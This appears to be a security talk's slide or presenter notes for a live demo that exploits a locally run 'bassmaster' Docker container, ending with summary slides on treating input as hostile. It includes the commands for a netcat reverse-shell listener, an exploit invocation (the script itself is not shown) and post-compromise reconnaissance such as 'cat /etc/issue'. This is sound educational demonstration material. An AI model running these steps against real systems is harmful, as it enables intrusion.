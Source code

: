 Note:
Custom docker.

DOCKER SETUP:
```
docker run --rm --network=host --name bassmaster -d  bassmaster
```

URL: http://localhost:8080/request

CATCHING SHELL: 
Show these commands first:
```
id
cat /etc/issue
pwd
ls
```
Then run catching shell:
```
nc -nvlp 4444
```

EXECUTE EXPLOIT
```
python3 bm-exploit.py localhost localhost 4444
```


When caught:
```
id
cat /etc/issue
pwd
ls
head -n 20 /source/bassmaster/examples/batch.js 
```



## Summary






### Summary
- Treat all input as hostile!
- Good security is difficult
- There is help out there
- You play an important role in securing the internet
- Given a taster of what security is and how it affects you



## Questions?

